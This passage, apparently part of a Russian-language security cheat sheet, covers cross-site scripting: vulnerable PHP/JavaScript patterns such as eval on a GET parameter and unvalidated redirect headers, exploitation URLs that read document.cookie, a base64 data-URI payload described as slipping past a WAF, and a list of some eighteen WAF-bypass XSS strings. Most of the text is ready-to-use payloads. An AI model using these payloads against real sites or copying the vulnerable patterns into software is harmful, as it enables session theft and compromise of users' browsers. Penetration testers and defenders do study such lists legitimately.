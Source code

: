 Эксплуатация:

```js
/?xss=500); alert(document.cookie);//
```

#### XSS на основе DOM

Пример:

```js
<script> ... eval($\_GET\[xss\]); ... </script>
```

Эксплуатация:

```js
/?xss=document.cookie
```

#### XSS через перенаправление запросов

Уязвимый код:

```js
...
header('Location: '.$_GET['param']);
...
```

Так же как:

```js
...
header('Refresh: 0; URL='.$_GET['param']);
...
```

Этот запрос не пройдет через WAF:

```html
/?param=<javascript:alert(document.cookie>)
```

Этот запрос пройдет через WAF, и в определенных браузерах будет проведена XSS-атака:

```html
/?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=
```

### Строки обхода WAF для XSS


- `<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">`
- `<Video> <source onerror = "javascript: alert (XSS)">`
- `<Input value = "XSS" type = text>`
- `<applet code="javascript:confirm(document.cookie);">`
- `<isindex x="javascript:" onmouseover="alert(XSS)">`
- `"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`
- `"><img src="x:x" onerror="alert(XSS)">`
- `"><iframe src="javascript:alert(XSS)">`
- `<object data="javascript:alert(XSS)">`
- `<isindex type=image src=1 onerror=alert(XSS)>`
- `<img src=x:alert(alt) onerror=eval(src) alt=0>`
- `<img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>`
- `<iframe/src="data:text/html,<svg onload=alert(1)>">`
- `<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>`
- `<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script`
- `<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">`
- `<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>`
- `<form><a href="javascript:\u0061lert(1)">X`